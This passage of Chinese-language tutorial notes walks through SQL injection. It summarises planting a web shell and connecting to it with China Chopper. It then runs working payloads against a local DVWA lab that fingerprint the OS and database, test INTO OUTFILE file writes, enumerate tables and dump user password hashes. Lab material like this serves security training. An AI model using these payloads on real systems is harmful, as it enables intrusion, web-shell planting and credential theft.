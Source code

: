 这样就可以通过sql注入，写入一个可以访问代码文件，通过中国菜刀直接连接。

##### 流程总结

- 寻找到用于写入文件权限的注入点
- 通过各种爆路径的方法，获取到web文件存放的目录。
- 通过注入点写入代码到文件，用菜刀进行连接控制。

sql注入和其他的网站的攻击方式有区别的是，他可以不用获取用户的登入密码，只要拥有在数据库中读写文件的权限即可。



#####  案例二

[默认80端口的dvwa中low等级的sql注入实验](http://localhost/dvwa/vulnerabilities/sqli/)

<img src="../images/dvwa_lib/sql_inject_low.png" style="z-index: 1; box-shadow: 2px 2px 6px 2px #aaaaaa; border-width:0px; border-radius:5px"  height="80px"/>

获取操作系统信息，以及数据库版本信息：

```sql
1' union select version(),@@version_compile_os; #
```

<img src="../images/dvwa_lib/sql_inject_low_os.png" style="z-index: 1; box-shadow: 2px 2px 6px 2px #aaaaaa; border-width:0px; border-radius:5px"  height="140px"/>

发现是win32的系统，数据库是5.5.28的

查看一下是否有写文件权限

```sql
-- 注意要用\\，或者/,不然会发现找不到
1'; select '123' into outfile 'c:/kk.txt';#
-- 或者
1'; select '123' into outfile 'c:\\kk.txt';#
```

发现当前是有权限的用户(因为用的admin登入的)，如果不是可以参考**案例一**，将数据库权限进行提权，利用admin登入，这里贴几条命令

```sql
-- 获取数据库名字，得到数据库名字为dvwa
1' union select 1, database() ; #
-- 获取数据库对应的表名及其字段，得到user表
1' union select table_name, column_name from information_schema.columns where table_schema="dvwa"; #
-- 查询users表，获取admin，登入密码。
1' union select user, password from users ; #
```
